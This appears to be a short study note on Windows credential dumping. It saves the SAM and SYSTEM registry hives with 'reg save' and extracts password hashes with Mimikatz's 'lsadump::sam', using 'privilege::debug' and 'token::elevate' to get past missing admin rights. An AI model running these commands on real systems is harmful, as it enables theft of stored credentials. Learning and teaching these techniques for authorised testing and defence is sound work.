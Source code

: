 




# **SYSTEM** and **SAM** Registry Hives




1. We can extract the **SYSTEM** and **SAM** **Registry Hives** from a local Windows machine by using the following command : 


>[!code]
>
>#### Command : 
>
>This would take care of the **SAM Registry** : 
>
>		reg save HKLM\SAM SamBkup.hiv
>
>
>#### Command :  
>
>This would take care of the **SYSTEM Registry** :
>
>		reg save HKLM\SYSTEM SystemBkup.hiv
>





# Dumping the **Hashes** with *MiMiKatZ* and *LSADump*



We would launch **MiMiKaTz** wit the following command : 


>[!code]
>
>#### Command : 
>
>	mimikatz 
>
>Which yields a shell : 
>
>	mimikatz# 
>
>We would need to run the following command , but without *administrative privileges*, we would get an error such as the following : 
>
>#### Command : 
>
>	lsadump::sam SystemBkup.hiv SamBkup.hiv
>
>###### Error : 
>![[Pasted image 20240327180553.png]]
>
>
>
>The reason why this command does not work is due to lack of *administrative privileges*. The way to get around it is via the following commands : 
>
>#### Command : 
>
>	privilege::debug
>
>#### Second Command :
>
>	token::elevate
>
>
>





